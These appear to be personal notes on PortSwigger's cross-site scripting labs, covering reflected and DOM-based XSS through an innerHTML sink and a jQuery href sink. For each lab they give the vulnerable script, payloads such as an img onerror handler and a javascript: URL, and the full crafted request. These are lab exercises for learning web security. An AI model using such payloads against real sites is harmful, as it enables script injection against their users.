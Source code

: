 **payload**:
> <script>alert(1)</script>


full path
> GET /product?productId=3&storeId=<script>alert(1)</script> HTTP/1.1
(i didnt close the tags - just wrote the script since it reflects as is anyway...)

portswiggers solution: 
>GET /product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)> HTTP/1.1



# ***3. Lab: DOM XSS in innerHTML sink using source location.search***
[to the Lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

original Java script:
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }

payload:
```
<img%20src=1%20onerror=alert(1)>
```

full path:
```
GET /?search=<img%20src=1%20onerror=alert(1)> HTTP/1.
```


# ***4. Lab: DOM XSS in jQuery anchor href attribute sink using location.search source***
[to the Lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)


original script:
```
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
```

**payload**:
```
?returnPath=javascript:alert(document.domain)
```
